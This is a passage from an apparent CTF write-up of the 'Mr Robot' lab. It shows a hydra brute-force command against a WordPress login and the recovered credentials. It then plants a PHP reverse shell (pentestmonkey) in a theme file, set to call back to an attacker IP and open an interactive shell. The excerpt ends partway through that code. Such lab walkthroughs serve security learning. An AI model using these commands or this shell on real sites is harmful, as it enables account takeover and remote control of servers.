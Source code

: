 Using hydra, we can retrieve the right password associated with the username Elliot.

``` sh
hydra -l Elliot -P fsocity.dic  http://10.10.150.113 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^:F=The password you entered for the username Elliot is incorrect."
```

After obtaining the combo `Elliot:ER28-0652`, we connect to the wp pannel.

![Dashboard](/assets/img/images/thm_mr_robot_ctf_writeup/H1YjDtNkT.png)

With the access, we can obtain a reverse shell by modifying the site with the *Editor* section in *Appearance*.
Then, we modify the archive.php to put the following code:

``` php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.11.24.118';
$port = 6870;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
```